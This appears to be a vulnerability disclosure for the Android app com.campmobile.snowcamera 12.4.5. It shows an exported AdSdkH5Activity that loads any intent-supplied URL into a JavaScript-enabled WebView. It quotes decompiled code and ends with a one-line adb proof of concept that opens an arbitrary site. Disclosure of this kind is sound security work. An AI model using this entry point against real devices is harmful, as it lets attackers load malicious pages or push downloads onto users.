

# com.campmobile.snowcamera

com.campmobile.snowcamera contains an export component AdSdkH5Activity, which allows an attacker to send a malicious URL and open it directly without any filtering or checking. It can also be used to download other malicious apps.

- package: com.campmobile.snowcamera
- version: 12.4.5

```xml
<activity
    android:theme="@style/Theme.AppCompat.NoActionBar"
    android:name="com.bwt.top.p164h5.AdSdkH5Activity"
    android:exported="true"/>
```

```java
package com.bwt.top.p164h5;
public class AdSdkH5Activity extends Activity {
    public static final String ISDOWNLOAD = "isDownload";
    public static final String ISSHOWSUREDIALOG = "isShowSureDialog";
    private static final int MSG_DOWNLOAD = 1;
    private static final int MSG_DP = 2;
    public static final String PKG = "PKG";
    public static final String URL = "url_str";

    @Override // android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(C4062R.C4067layout.activity_ad_sdk_h5);
        if (getIntent() == null) {
            adClose();
            finish();
            return;
        }
        this.mIsWebDownload = getIntent().getBooleanExtra(ISDOWNLOAD, false);
        this.mIsShowSureDialog = getIntent().getBooleanExtra(ISSHOWSUREDIALOG, false);
        this.mPkg = getIntent().getStringExtra(PKG);
        ...
        initWebView();
        String stringExtra = getIntent().getStringExtra(URL);
        loadUrl(stringExtra);
        String str = this.TAG;
        ALog.m150275d(str, "loadUrl:" + stringExtra);
    }

    private void loadUrl(String str) {
        WebView webView = this.mWebView;
        if (webView == null || str == null) {
            return;
        }
        webView.loadUrl(str, this.extraHeaders);
    }

    private void initWebView() {
        this.extraHeaders.put(HttpHeaders.f33896c1, this.mPkg);
        this.mWebView.setVisibility(8);
        this.mWebView.getSettings().setSaveFormData(true);
        this.mWebView.getSettings().setDomStorageEnabled(true);
        this.mWebView.getSettings().setDatabaseEnabled(true);
        this.mWebView.getSettings().setAppCacheEnabled(true);
        this.mWebView.getSettings().setJavaScriptEnabled(true);
        this.mWebView.getSettings().setCacheMode(-1);
        this.mWebView.getSettings().setCacheMode(1);
        this.mWebView.getSettings().setMediaPlaybackRequiresUserGesture(false);
        this.mWebView.getSettings().setMixedContentMode(0);
        this.mWebView.setScrollBarStyle(0);
        this.mWebView.setFocusable(true);
        this.mWebView.setFocusableInTouchMode(true);
        this.mWebView.requestFocusFromTouch();
        this.mWebView.requestFocus();
        this.webViewClient = new MWebViewClient();
        this.webChromeClient = new MWebChromeClient();
        this.mWebView.setDownloadListener(null);
        this.mWebView.setWebViewClient(this.webViewClient);
        this.mWebView.setWebChromeClient(this.webChromeClient);
    }
```

PoC:
```sh
$ adb shell am start -n com.campmobile.snowcamera/com.bwt.top.h5.AdSdkH5Activity -e "url_str" "https://www.windows93.net"
```


